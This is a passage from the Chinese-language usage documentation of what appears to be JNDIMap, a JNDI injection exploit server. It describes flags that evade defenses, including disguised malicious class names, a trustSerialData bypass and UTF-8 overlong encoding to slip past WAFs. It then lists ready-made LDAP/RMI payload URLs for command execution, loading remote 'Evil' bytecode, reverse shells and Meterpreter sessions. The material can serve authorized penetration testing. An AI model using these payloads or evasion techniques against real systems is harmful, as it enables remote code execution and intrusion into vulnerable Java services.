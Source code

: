 `-u`: 手动指定 JNDI 路由, 例如 `/Basic/Command/open -a Calculator` (某些场景的 JNDI URL 并不完全可控)

`-f`: 自定义 JS 脚本路径, 用于编写自定义 JNDI Payload

`--use-reference-only`: 仅适用于 LDAP 协议, 通过 LDAP 相关参数直接返回 Reference 对象, 用于绕过 `com.sun.jndi.ldap.object.trustSerialData`

`--confusing-class-name`: 在生成恶意 Java 类时使用随机虚假类名, 该类名与真实项目高度相似

`--jshell`: 使用 JShell 执行相关 Payload (替代 Nashorn JS Engine), 支持 JDK 9+

`--overlong-encoding`: 使用 UTF-8 Overlong Encoding 混淆 LDAP 协议返回的序列化数据, 以此绕过部分 WAF

`-h`: 显示帮助信息

`-V`: 显示版本信息

## URL 格式

注意传入的 Base64 均为 **Base64 URL 编码**, 即把 `+` 和 `/` 替换为 `-` 和 `_`

大部分参数均支持自动 Base64 URL 解码, 即可以直接传入明文 (命令/IP/端口/URL) 或 Base64 URL 编码后的内容 (部分路由只接受 Base64 URL 编码后的参数, 下文会特别注明)

以下路由除 `/Deserialize/*` (LDAP 反序列化) 以外, 均支持 RMI, LDAP 和 LDAPS 协议

对于 RMI 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `rmi://127.0.0.1:1099/` 即可

对于 LDAPS 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `ldaps://127.0.0.1:1636/` 即可

## Basic 功能

直接通过 JNDI Reference 类加载远程 Java 字节码

Java 版本需小于 8u121 (RMI 协议) 或 8u191 (LDAP 协议)

```bash
# 发起 DNS 请求
ldap://127.0.0.1:1389/Basic/DNSLog/xxx.dnslog.cn
ldap://127.0.0.1:1389/Basic/DNSLog/eHh4LmRuc2xvZy5jbg==

# 命令执行
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/b3BlbiAtYSBDYWxjdWxhdG9y

# 加载自定义 Java 字节码

# URL 传参加载
ldap://127.0.0.1:1389/Basic/FromUrl/<base64-url-encoded-java-bytecode>
# 从运行 JNDIMap 的服务器上加载
ldap://127.0.0.1:1389/Basic/FromFile/Evil.class # 相对于当前路径
ldap://127.0.0.1:1389/Basic/FromFile/<base64-url-encoded-path-to-evil-class-file>

# 反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Basic/ReverseShell/MTI3LjAuMC4x/NDQ0NA==

# 反弹 Meterpreter (java/meterpreter/reverse_tcp)
ldap://127.0.0.1:1389/Basic/Meterpreter/127.0.0.1/4444
ldap://127.0.0.1:1389/Basic/Meterpreter/MTI3LjAuMC4x/NDQ0NA==
```
